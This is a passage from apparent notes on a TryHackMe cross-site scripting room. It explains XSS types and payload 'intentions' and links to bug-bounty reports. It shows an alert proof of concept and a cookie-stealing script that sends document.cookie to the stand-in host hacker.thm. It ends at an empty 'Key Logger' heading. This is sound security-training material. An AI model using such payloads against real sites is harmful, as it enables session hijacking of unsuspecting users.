 #xss #webhacking #webapplicationpentesting #bugbounty #tryhackme 

# Room Brief

**Prerequisites:**  
It's worth noting that because XSS is based on JavaScript, it would be helpful to have a basic understanding of the language. However, none of the examples is overly complicated—also, a basic understanding of Client-Server requests and responses.

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)
# XSS Payloads
## What is a Payload?

In XSS, the payload is the JavaScript Code we wish to be executed on the target's computer. There are two parts to the payload, the intention and the modification.

- The **intention** is what you wish for the JavaScript to actually do (which we will cover with some examples below), 
- The **modification** is the changes to the code we need to make to make it execute as every scenario is different

Here are some examples of XSS Intentions:
### Proof of Concept

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

```html
<script>alert('XSS');</script>
```
### Session Stealing

Details of a user's session, such as login tokens, are often kept in cookies on the target's machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### Key Logger
